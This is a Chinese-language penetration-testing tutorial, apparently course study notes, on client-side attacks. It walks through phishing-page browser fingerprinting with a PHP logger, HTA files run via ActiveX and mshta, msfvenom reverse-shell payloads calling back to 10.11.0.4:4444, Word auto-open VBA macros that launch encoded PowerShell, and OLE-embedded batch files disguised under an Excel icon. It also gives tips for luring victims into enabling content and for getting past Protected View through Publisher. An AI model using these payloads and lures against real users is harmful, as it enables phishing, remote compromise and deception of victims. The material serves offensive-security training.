# 客户端攻击

## 客户端指纹识别

> 要获得最精确的信息，我们通常必须从目标计算机本身收集信息,我们可以在攻击过程之前，将攻击的这一重要阶段作为一个独立步骤执行，或者将指纹纳入攻击本身的第一阶段
>
> 在此示例中，我们将使用Fingerprintjs2 ,该库可通过从其GitHub存储库下载并提取项目归档文件进行安装。

```bash
kali@kali:/var/www/html$ sudo wget https://github.com/Valve/fingerprintjs2/archive/master.zip
kali@kali:/var/www/html$ sudo unzip master.zip
kali@kali:/var/www/html$ sudo mv fingerprintjs2-master/ fp
```

可以参照以下代码将`fingerprint2.js`加入用来钓鱼网站的前端代码中此例是`/var/www/html/fp/fingerprint2.html`，用来获得浏览网页用户的信息。

```javascript
<!doctype html>
<html>
    <head>
    <title>Fingerprintjs2 test</title>
	</head>
	<body>
        <h1>Fingerprintjs2</h1>
		<p>Your browser fingerprint: <strong id="fp"></strong></p>
    	<p><code id="time"/></p>
		<p><span id="details"/></p>
	<script src="fingerprint2.js"></script>

	<script>
    	var d1 = new Date();
		var options = {};
		Fingerprint2.get(options, function (components){
            var values = components.map(function (component) { return component.value })
        	var murmur = Fingerprint2.x64hash128(values.join(''), 31)
        	var d2 = new Date();
			var timeString = "Time to calculate the fingerprint: " + (d2 -d1) + "ms";
            var details = "<strong>Detailed information: </strong><br />";
            if(typeof window.console !== "undefined") {
                for (var index in components) {
                    var obj = components[index];
                    var value = obj.value;
                    if (value !== null) {
                        var line = obj.key + " = " + value.toString().substr(0, 150);
                        details += line + "<br />"
                     }
                }
            }
            document.querySelector("#details").innerHTML = details 				document.querySelector("#fp").textContent = murmur 					document.querySelector("#time").textContent = timeString
        });
	</script>
</body>
</html>
```

然后加入后端代码` /fp/js.php`。`/var/www/html/fp/fingerprint.txt`存放的是输出的信息

```php
<?php
$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
$data .= file_get_contents('php://input');
$data .= "---------------------------------\n\n";
file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEN
D | LOCK_EX);
?>
```

用户访问网页后，会在后端将指纹信息存入文件

如果同时，我们应该将网站目录权限赋予服务器用户`sudo chown www-data:www-data fp`

## 利用html程序

> 当我们创建一个html网页时，如果后缀名使用.hta，则ie会自动认为文件是一个html程序，并且允许使用mshta.exe，这将允许程序从ie直接执行而不是进行下载。并且如果用户允许，则在执行时可以使用这个用户的权限去执行任意代码。
>
> 这只对IE及部分Eege浏览器生效。同时它与陈旧且不安全的ActiveX技术兼容。

### 概念验证

利用ActiveXObjects执行命令行

poc.hta:

```html
<html>
	<body>
		<script>
     		var c= 'cmd.exe'
     		new ActiveXObject('WScript.Shell').Run(c);
		</script>
	</body>
</html>
```

一旦目标浏览网页，将弹出运行提示



如果用户选择打开，由于浏览器的默认沙盒保护机制，会弹出安全提示框



如果用户继续点击允许，怎会执行cmd.exe，在用户端弹出命令行。



只要在mshta.exe执行期间，这个窗口都会一直存在，显然我们不想要这种状态。那么在前端网页中加入一个.close()动作，则会达到目的

```html
<html>
	<head>
		<script>
			var c= 'cmd.exe'
			new ActiveXObject('WScript.Shell').Run(c);
		</script>
	</head>
	<body>
		<script>
			self.close();
		</script>
	</body>
</html>
```

下面进行实际攻击

### HTA攻击

首先使用`msfvenom`依靠`hta-psh`格式生成利用powershell的payload

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

如果cat这个文件，我们可以发现，文件中在执行powershell时使用了三个参数，`-nop`,`-w hidden`和`-e`

`-nop`是`-NoProfile`参数的简写，控制powershell不要载入用户对powershell的配置文件。

`-w hidden`则是`-WindowStyle hidden`的简写，让窗口在运行期间保持隐藏。

`-e`则是`-EncodedCommand`的缩写，使我们可以使用一个base64编码的脚本在powershell中执行。

建立监听，并等待用户浏览网页，执行后会返回shell



这种方法基本不需要任何漏洞。所以可以广泛应用于钓鱼，等快速进攻方式

## 利用office

> 相对于可以的邮件链接，或是网站超链。利用office的特性进行工具则更容易让人为了完成工作而忽略安全提示。

### 古老的word宏

> word允许宏，而宏又允许使用VBA这种古老而强大的脚本语言。vba是一个强大且功能齐全的，可以完全访问ActiveX对象和windows Script Host

#### 概念验证

要创建一个宏，只要打开word选择视图，选择宏，然后输入名字，点击建立，即可在word中增加一个基本的宏框架



```vbscript
Sub AutoOpen()
	MyMacro
End Sub
Sub Document_Open()
	MyMacro
End Sub
Sub MyMacro()
	CreateObject("Wscript.Shell").Run "cmd"
End Sub
```

`AutoOpen()`函数帮助我们在文档打开时自动执行我们的函数`MyMacro()`

`Document_Open()`函数则让我们，在文档已经打开一个实例然后开启第二个文档实例的时候仍然执行我们的函数。

`MyMacro()`我们的函数，建立windoscript对象运行命令行。

最终，这个文档必须保存为早期的`.docm`或者`.doc`文件，绝对不要保存`.docx`它不支持。

当这个文档被打开时，会收到安全警告，需要用户点击enable才能执行。

虽然运行宏的功能可以通过设置完全禁止，但是大多数情况下用户是使用默认选项，提示运行的。



在实战中，应在文档或前期阶段，尽量鼓励和暗示目标进行点击才能正常浏览文档。以达到攻击的目的。

#### 攻击利用

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh
```

执行这个命令，截取需要的字符串。



这会产生一个非常长的字符串，而由于VBA的长度限制为255个字符，我们需要使用python对字符串进行快速处理。

```python
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."
n = 50
for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```



将字符串整理后加入脚本

```vbscript
Sub AutoOpen()
 MyMacro
End Sub
Sub Document_Open()
 MyMacro
End Sub
Sub MyMacro()
    
 Dim Str As String

 Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
 Str = Str + "gBTAEIARAAvAG4ARQBqADUASAAvAGgAZwBDAFoAQwBJAFoAUgB"
 ...
 Str = Str + "AZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0Ac"
 Str = Str + "QA="
 CreateObject("Wscript.Shell").Run Str
End Sub
```

建立监听，文档打开后会得到shell



### 对象链接和嵌入

> 另外一种曾经流行的针对office的攻击方法是利用了，动态数据交换的滥用(DDE)，完成在office文档中执行任意程序，但是这个问题在2017年12月被修复了
>
> 但是我们仍然可以使用动态链接和嵌入(OLE)，来达到利用office文档的嵌入功能。

#### 验证

新建一个批处理文件`launch.bat`:

```
START cmd.exe
```

新建文档，导入，选择对象，选择从文件创立，选择建立好的批处理文件。



我们还可以更改Word文档中批处理文件的外观，以使其看起来更好。为此，我们只需选中“显示为图标”复选框，然后选择“更改图标”



即使这是一个嵌入式批处理文件，Microsoft仍允许我们为它选择一个不同的图标并输入标题，这是受害者将看到的标题，而不是实际的文件名。在上面的示例中，我们选择了Microsoft Excel图标以及ReadMe.xlsto名称，以完全掩盖该批处理文件，以降低对受害者的怀疑。接受菜单选项后，批处理文件将嵌入到Microsoft Word文档中。接下来，必须诱使受害者双击它并接受如图所示的安全警告



### 获得shell

修改为powershell,base64

``````
START powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj....
```

监听，得到shell



由于文档是在本地建立，可以正常运行，但当在实际应用中文档由email或其他网络途径传播并打开，会转为受保护的视图，这将禁用文档中的所有编辑和修改，并阻止宏或嵌入式对象的执行。



我们可以使用另一个office软件Publisher，与Microsoft Word一样，Microsoft Publisher允许嵌入对象并最终以与Word和Excel完全相同的方式执行代码，但不会启用Internet传递文档的受保护视图

我们可以使用以前应用于Word的策略来绕过这些限制，但是缺点是与Word或Excel相比，Publisher的安装频率较低。尽管如此，如果您的指纹检测阶段检测到安装了Publisher，这可能是一个可行且更好的方法。